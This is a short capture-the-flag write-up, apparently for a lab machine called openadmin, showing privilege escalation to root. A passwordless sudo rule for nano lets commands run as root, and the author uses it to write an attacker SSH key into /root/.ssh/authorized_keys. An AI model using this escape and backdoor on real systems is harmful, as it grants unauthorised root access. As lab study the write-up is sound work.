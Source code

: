 # Privilege Escalation to root
User joanna can run following commands as sudo.
```bash
$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
When executed `sudo /bin/nano /opt/priv` , nano editor is opened which can read and execute commands as root. So running nano as sudo kali(my machine) public key can be copied to /root/.ssh/authorized keys and then can be ssh logged in as root. Procedure is shown below.
Nano is opened after executing `sudo /bin/nano /opt/priv`.
![[Pasted image 20210707064026.png]]
While being in nano, `Ctrl+r`  can be used to read files and `Ctrl+r then Ctrl+x` can be used to execute commands. So kali machine(my machine)'s public key can be copied to victim's(openadmin machine) by using `echo "[public-key]" > /root/.ssh/authorized_keys` command
![[Pasted image 20210707064647.png]]
Verified that public key copied in `/root/.ssh/authorized_keys`.




